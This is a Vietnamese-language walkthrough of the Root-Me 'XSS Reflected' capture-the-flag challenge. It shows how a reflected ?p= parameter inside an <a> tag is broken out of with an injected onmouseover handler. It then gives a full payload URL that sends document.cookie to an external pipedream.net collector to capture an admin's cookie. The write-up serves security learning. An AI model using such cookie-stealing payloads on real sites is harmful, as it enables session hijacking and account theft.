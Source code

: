 # [XSS Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

Kiểm tra source website ta thấy web bị comment 1 thẻ <<a>> dẫn đến `?p=security`:

<img src="./media/image1.png" style="width:6.5in;height:2.89861in" alt="Text Description automatically generated" />

Request đến `?p=security`, website hiển thị trang web lỗi và có một hyperlink thẻ `<a>` hiển thị nội dung `security`:

<img src="./media/image2.png" style="width:6.5in;height:3.03403in" alt="Graphical user interface, text, application Description automatically generated" />

Thử nhập `?p=<giá trị khác>`, page sẽ báo lỗi và hiển thị nội dung `<giá trị khác>` trong thẻ `<a>`. Như vậy, lợi dụng thẻ `<a>` này, ta thực hiện đóng quote cũng như chèn thêm event để thực hiện XSS:

<img src="./media/image3.png" style="width:6.5in;height:2.2625in" alt="Graphical user interface, text, application Description automatically generated" />

Đến đây, sau khi thử get trực tiếp document.cookie nhưng không có giá trị, ta thực hiện gửi HTTP Request và qua RequestBin chờ cookie.

Payload: <http://challenge01.root-me.org/web-client/ch26/?p=nh4ttruong%27%20onmouseover=%27document.location=%22https://eol9dtzbk9673pb.m.pipedream.net?%22.concat(document.cookie)>

Thực hiện request với payload, sau đó ta trigger event `onmouseover` và di chuyển chuột qua thẻ `<a>` để chuyển hướng website:

<img src="./media/image4.png" style="width:6.5in;height:1.03958in" alt="Graphical user interface, application Description automatically generated" />

Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:

<img src="./media/image5.png" style="width:5.21935in;height:2.0922in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image6.png" style="width:6.5in;height:1.86042in" alt="Graphical user interface, text Description automatically generated" />

Qua **RequestBin** và nhận flag:

<img src="./media/image7.png" style="width:6.5in;height:1.94931in" alt="Graphical user interface, text, application Description automatically generated" />

- Flag: "****************************"
